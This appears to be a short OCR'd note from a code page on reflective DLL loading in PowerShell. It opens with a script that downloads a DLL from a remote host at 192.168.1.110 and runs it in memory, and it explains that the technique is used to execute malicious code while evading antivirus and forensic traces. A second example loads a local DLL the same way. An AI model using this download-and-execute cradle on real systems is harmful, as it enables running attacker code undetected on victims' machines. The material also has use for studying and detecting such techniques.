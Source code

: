 ```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.110/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

Reflective loading in PowerShell is a technique used to load and execute a Dynamic Link Library (DLL) directly from memory, without the need for writing the DLL to disk. This approach is often used in offensive security scenarios, like in-memory execution of malicious code, because it avoids touching the filesystem, which can help evade antivirus detection and leave minimal traces for forensic analysis.

### **Key Concepts in Reflective Loading:**

1. **Reflection in Programming**: Reflection is the ability of a program to inspect, modify, or invoke its structure or behaviors at runtime. In PowerShell, this is often achieved using the .NET `System.Reflection` namespace, which provides mechanisms to load assemblies or modules into memory and invoke their methods dynamically.

2. **Reflective DLL Injection**: Traditionally, DLL injection is a technique where a DLL is loaded into the address space of another process. Reflective DLL loading is a stealthier version, where the DLL is loaded directly into the memory of the process using a custom loader, without writing the DLL to disk.

3. **PowerShell's Role**: PowerShell can facilitate reflective loading by using .NET and reflection to load a DLL directly from memory (or even from the web), bypassing the need to save the DLL to disk and potentially alerting security mechanisms like antivirus.

---

### **Example of Reflective Loading in PowerShell**

In the example below, PowerShell uses reflection to load a DLL file that’s stored as a byte array (which could have been downloaded from a remote source) and invokes a method from it:

```powershell
# Example: Reflectively load a DLL in PowerShell and execute a method

# Step 1: Load the DLL into memory as a byte array
$bytes = [System.IO.File]::ReadAllBytes("C:\path\to\dllfile.dll")

# Step 2: Use Assembly.Load to load the DLL into memory using reflection
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Step 3: Get the type from the loaded assembly
$type = $assembly.GetType("Namespace.ClassName")

# Step 4: Instantiate the class (if needed) or directly invoke a static method
$instance = [Activator]::CreateInstance($type)

# Step 5: Invoke a method on the instance (or on the class if it's a static method)
$method = $type.GetMethod("MethodName")
$method.Invoke($instance, $null)  # If the method takes parameters, provide them in the array instead of $null
```

---